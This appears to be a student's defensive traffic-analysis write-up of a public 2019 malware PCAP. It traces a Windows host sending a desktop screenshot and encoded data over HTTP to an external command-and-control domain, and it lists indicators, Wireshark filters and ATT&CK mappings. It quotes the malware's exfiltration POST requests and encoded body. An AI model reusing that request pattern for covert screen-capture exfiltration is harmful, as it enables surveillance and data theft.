





# Day 8 — Malware Traffic Investigation: HTTP-Based Screen Capture Transfer

## Objective

Investigate suspicious network traffic generated by a potentially compromised Windows endpoint and identify indicators of malware communication, data transfer, and possible screen capture activity.

The investigation focused on identifying:

- Suspicious external communications
- High-volume HTTP traffic
- HTTP POST activity
- Encoded application-layer data
- Potential screenshot capture and transfer
- Relevant IP addresses, domains, and network indicators
- What can and cannot be confirmed from PCAP evidence

---

## PCAP Information

| Field | Detail |
|---|---|
| **PCAP** | `2019-07-19-traffic-analysis-exercise.pcap` |
| **Source** | Malware-Traffic-Analysis.net |
| **Investigation Date** | 2 September 2026 |

**Source link:** https://www.malware-traffic-analysis.net/2019/07/19/index.html

---

## Investigation Environment

- Kali Linux
- Wireshark
- Malware-Traffic-Analysis.net PCAP

---

## 1. Initial Traffic Baseline

The capture contained:

- **29,209 total packets**
- **TCP:** 29,011 packets (~99.32%)
- **UDP:** 190 packets (~0.65%)
- **Other:** 8 packets

The primary internal endpoint identified during the investigation was `172.16.4.205`.

Significant external communication was observed with `185.243.115.84` and `166.62.111.64`.

The highest-volume external communication was:

```
172.16.4.205:49249
        ↓
185.243.115.84:80
```

This communication occurred over TCP/HTTP and represented the dominant external connection in the capture.

**Evidence**


*Screenshot_2026-09-02_19_57_43.png — overall Wireshark packet capture with HTTP traffic and communication involving the internal host 172.16.4.205*

---

## 2. Suspicious External Communication

Conversation analysis for:

```text
ip.addr == 185.243.115.84
```

identified the following connection:

| Field | Value |
|---|---|
| Source | `172.16.4.205:49249` |
| Destination | `185.243.115.84:80` |
| TCP Stream | 78 |
| Packets | 18,324 |
| Total Data | ~16.5 MB |
| Duration | ~443 seconds |

The connection contained substantial bidirectional HTTP traffic and was therefore selected for deeper application-layer inspection.

**Evidence**


*Screenshot_2026-09-02_19_58_10.png — TCP Conversation Statistics identifying the high-volume connection from 172.16.4.205:49249 to 185.243.115.84:80 on stream 78*

---

## 3. HTTP Investigation

The suspicious stream was investigated using:

```text
tcp.stream eq 78 && http.request
```

Multiple HTTP requests were identified, including requests to `b5689023.green.mattingsolutions.co`.

One request:

```http
POST /empty.gif HTTP/1.1
Host: b5689023.green.mattingsolutions.co
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
```

Request body — hexadecimal-looking encoded data:

```
a=4f54646966376d606360653572656961646172666965616167626166676c6c67606672
```

Server response:

```http
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.2.19
```

The response contained a large amount of hexadecimal-looking data. This indicates that the communication used application-layer encoded data, although the exact purpose of every encoded message was not established during this investigation.

**Evidence**


*Screenshot_2026-09-02_19_58_33.png — Follow TCP Stream view for TCP stream 78 containing the large reconstructed HTTP conversation*

---

## 4. Suspicious Large POST Request

A particularly significant request was identified in **Frame 28458**:

```http
POST /empty.gif?ss&ss2img HTTP/1.1
Host: b5689023.green.mattingsolutions.co
Content-Length: 3592220
Connection: Keep-Alive
Cache-Control: no-cache
```

| Field | Value |
|---|---|
| Source | `172.16.4.205:49249` |
| Destination | `185.243.115.84:80` |
| File Data | 3,592,220 bytes |

Wireshark identified the payload as a valid PNG image.

**PNG Metadata**

| Field | Value |
|---|---|
| Format | PNG |
| Width | 1920 |
| Height | 1080 |
| Bit Depth | 8 |
| Colour Type | Truecolour with alpha |
| Compression | Deflate |

The image contained a valid PNG structure with multiple IDAT chunks and an IEND trailer.

**Evidence**


*Screenshot_2026-09-02_19_58_55.png — Frame 28458 containing the 3,592,220-byte HTTP POST to /empty.gif?ss&ss2img with the payload identified as a 1920×1080 PNG*

---

## 5. Extracted Image Analysis

The HTTP object was extracted using `File → Export Objects → HTTP`.

Six objects associated with `b5689023.green.mattingsolutions.co` were identified. Only the large PNG object was successfully interpreted as a valid image.

The extracted image showed a Windows desktop environment, including the desktop wallpaper, Recycle Bin, taskbar, system clock, and system date.

| Field | Value |
|---|---|
| Displayed system date | 19/07/2019 |
| Visible time | ~6:57 PM |
| Resolution | 1920 × 1080 (matches PNG metadata) |

**Evidence**


*Screenshot_2026-09-02_19_59_25.png — Wireshark's HTTP Export Objects list containing six objects associated with b5689023.green.mattingsolutions.co, including the large 3,592 KB image object*


*day8.png — extracted 1920×1080 PNG containing the Windows desktop screenshot transmitted by the internal host*

---

## 6. Screenshot Transfer Assessment

The combination of the following evidence is significant:

- `POST /empty.gif?ss&ss2img`
- `Content-Length: 3,592,220`
- Valid PNG image, 1920 × 1080
- Extracted image visibly containing the Windows desktop

The request URI contains `ss` and `ss2img`, which provides additional context consistent with screen-image capture or transfer.

Based on the PCAP evidence, the investigation identified a Windows desktop image being transmitted from the internal endpoint to external infrastructure over HTTP. The exact malware component responsible for generating the image was not determined from this investigation.

---

## 7. Indicators of Interest

| Indicator | Value |
|---|---|
| Internal Host | `172.16.4.205` |
| External IP | `185.243.115.84` |
| Domain | `b5689023.green.mattingsolutions.co` |
| Destination Port | 80/TCP |
| TCP Stream | 78 |
| Suspicious URI | `/empty.gif?ss&ss2img` |
| Large Payload | 3,592,220 bytes |
| File Type | PNG |
| Image Resolution | 1920 × 1080 |

---

## 8. Wireshark Filters Used

| Purpose | Filter |
|---|---|
| Identify traffic involving the suspected endpoint | `ip.addr == 172.16.4.205` |
| Investigate communication with the suspicious external IP | `ip.addr == 185.243.115.84` |
| Isolate the primary TCP stream | `tcp.stream eq 78` |
| Display HTTP requests in the stream | `tcp.stream eq 78 && http.request` |
| Display HTTP POST requests | `tcp.stream eq 78 && http.request.method == "POST"` |

---

## 9. MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Command and Control | Application Layer Protocol: Web Protocols | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) |
| Collection | Screen Capture | [T1113](https://attack.mitre.org/techniques/T1113/) |

- **T1071.001** — the observed communication used HTTP over TCP/80 between the internal endpoint and external infrastructure.
- **T1113** — the extracted network object contained a 1920×1080 image visibly showing the Windows desktop; the transfer is consistent with screen capture activity.

This mapping should be treated as an evidence-based assessment of the observed behavior rather than proof of the exact malware implementation.

---

## 10. Findings

- `172.16.4.205` maintained a large HTTP communication stream with external infrastructure at `185.243.115.84`.
- The communication involved the domain `b5689023.green.mattingsolutions.co`.
- The stream contained encoded application-layer data exchanged through HTTP POST requests.
- A POST request to `/empty.gif?ss&ss2img` transmitted approximately 3.59 MB of PNG image data.
- Wireshark identified the payload as a valid 1920×1080 PNG.
- The extracted PNG visibly contained the Windows desktop of the source system.
- The observed behavior is consistent with screen-image capture and outbound transfer over HTTP.

---

## 11. Limitations

The PCAP provides network-level evidence only. The investigation does **not** independently establish:

- The exact malware family
- Which process created the screenshot
- The exact mechanism used to capture the screen
- Whether additional host compromise occurred
- Whether the attacker manually controlled the endpoint
- The precise purpose of every encoded HTTP message

The other HTTP objects associated with the same domain were not successfully interpreted as valid image files and were therefore not used as evidence for additional screenshots.

---

## 12. Conclusion

The investigation of the 2019-07-19 traffic capture identified suspicious HTTP communication from `172.16.4.205` to external infrastructure at `185.243.115.84`.

The most significant finding was a 3.59 MB PNG transmitted through an HTTP POST request to `b5689023.green.mattingsolutions.co/empty.gif?ss&ss2img`.

Wireshark confirmed the payload as a valid 1920×1080 PNG, and extraction of the HTTP object revealed that the image contained the Windows desktop of the source system.

This provides strong network evidence of screen-image data being captured and transmitted from the internal endpoint to external infrastructure.

The investigation therefore identifies behavior consistent with HTTP-based command-and-control and screen capture/data transfer activity, while avoiding claims about malware execution or the exact malware family that cannot be proven from the PCAP alone.

---

## Evidence

| # | Screenshot | Content |
|---|---|---|
| 1 | `Screenshot_2026-09-02_19_57_43.png` | Overall packet capture overview |
| 2 | `Screenshot_2026-09-02_19_58_10.png` | TCP Conversation statistics — stream 78 |
| 3 | `Screenshot_2026-09-02_19_58_33.png` | Follow TCP Stream — stream 78 |
| 4 | `Screenshot_2026-09-02_19_58_55.png` | Frame 28458 — large POST with PNG payload |
| 5 | `Screenshot_2026-09-02_19_59_25.png` | HTTP Export Objects list |
| 6 | `day8.png` | Extracted 1920×1080 desktop screenshot |

---

## Folder Structure

```
day08-malware-screen-capture/
├── README.md
├── Screenshot_2026-09-02_19_57_43.png
├── Screenshot_2026-09-02_19_58_10.png
├── Screenshot_2026-09-02_19_58_33.png
├── Screenshot_2026-09-02_19_58_55.png
├── Screenshot_2026-09-02_19_59_25.png
└── day8.png
```

Do not commit `2019-07-19-traffic-analysis-exercise.pcap` itself — reference the source page instead.

---

## Disclaimer

This investigation was performed using a publicly available network traffic capture (Malware-Traffic-Analysis.net) for cybersecurity education and defensive security training. The conclusions documented here are limited to the network evidence available in the PCAP and do not confirm the specific malware family, execution mechanism, or full scope of compromise.
